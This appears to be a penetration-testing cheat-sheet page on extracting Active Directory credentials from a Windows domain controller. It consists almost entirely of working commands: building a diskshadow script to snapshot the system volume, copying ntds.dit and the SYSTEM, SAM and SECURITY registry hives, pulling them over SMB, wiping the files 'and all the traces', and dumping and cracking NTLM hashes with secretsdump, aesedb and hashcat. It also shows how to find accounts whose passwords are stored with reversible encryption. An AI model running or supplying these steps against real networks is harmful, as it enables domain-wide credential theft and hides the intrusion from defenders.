 ```yaml
---
description: Windows NT Directory Services
---
```


# NTDS




## Create Shadow

Locate `diskshadow.exe`:

```
cmd /c where /R C:\ diskshadow.exe
```

Create a shadow disk:

```
cd \Windows\Temp
powershell -c "Add-Content add_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content add_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content add_vol.txt 'set verbose on'"
powershell -c "Add-Content add_vol.txt 'begin backup'"
powershell -c "Add-Content add_vol.txt 'add volume c: alias DCROOT'"
powershell -c "Add-Content add_vol.txt 'create'"
powershell -c "Add-Content add_vol.txt 'expose %DCROOT% w:'"
powershell -c "Add-Content add_vol.txt 'end backup'"
cmd /c diskshadow.exe /s add_vol.txt
```

{% code title="add_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
begin backup
add volume c: alias DCROOT
create
expose %DCROOT% w:
end backup
```
{% endcode %}




## Exfiltrate over SMB

Create a network share with anonymous access and put there all we need:

```
cd \Windows\Temp
copy w:\Windows\NTDS\ntds.dit ntds.dit
cmd /c reg.exe save hklm\system system.hive
cmd /c reg.exe save hklm\sam sam.hive
cmd /c reg.exe save hklm\security security.hive
```

Connect to the share and grab the files:

```
$ smbclient.py MEGACORP/administrator:'Passw0rd!'@192.168.1.11
use C$
cd windows/temp
get ntds.dit
get system.hive
get sam.hive
get security.hive
```




## Clean Up

Remove the shadow volume:

```
cd \Windows\Temp
powershell -c "Add-Content delete_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content delete_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content delete_vol.txt 'set verbose on'"
powershell -c "Add-Content delete_vol.txt 'unexpose w:'"
powershell -c "Add-Content delete_vol.txt 'delete shadows volume c:'"
powershell -c "Add-Content delete_vol.txt 'reset'"
cmd /c diskshadow.exe /s delete_vol.txt
```

{% code title="delete_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
unexpose w:
delete shadows volume c:
reset
```
{% endcode %}

Remove the share and all the traces:

```
cd \Windows\Temp
rm ntds.dit
rm system.hive
rm sam.hive
rm security.hive
rm C:\Windows\Temp\meta.cab
rm add_vol.txt
rm delete_vol.txt
```




## Parse

Parse with [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py):

```
$ secretsdump.py [-pwd-last-set] [-user-status] [-history] -sam sam.hive -system system.hive -security security.hive -ntds ntds.dit LOCAL > ntds.txt
$ cat ntds.txt | grep aad3b | grep -i 'Status=Enabled' | grep -v 31d6c | grep -v -e '\$' -e '{' -e '}' -e HealthMailbox | awk -F: '{print $1":"$4}' | sort -u > ntds.in
$ hashcat -m 1000 -a 0 -w 4 -O --session=ntds -o ntds.out ntds.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```

Parse with [aesedb](https://github.com/skelsec/aesedb) (faster but less informative):

```
$ antdsparse <BOOTKEY> ntds.dit -o ntds.txt --progress
$ antdsparse system.hive ntds.dit -o ntds.txt --progress
```



### Reversible Encryption

- [https://adsecurity.org/?p=2053](https://adsecurity.org/?p=2053)
- [https://www.blackhillsinfosec.com/how-i-cracked-a-128-bit-password/](https://www.blackhillsinfosec.com/how-i-cracked-a-128-bit-password/)

Check if enabled globally:

- gpmc.msc > *Computer Configuration* > *Policies* > *Windows Settings* > *Security Settings* > *Account Policies* > *Password Policy* > *Store passwords using reversible encryption* > *Enabled* ✔

Check if enabled for specific users:

```
PS > Get-ADUser -Filter {userAccountControl -band 128} -Properties userAccountControl | ft name,samAccountName,userAccountControl | tee users-revenc.txt
```

{% hint style="info" %}
When DCSyncing such users, a cleartext password will be obtained.
{% endhint %}
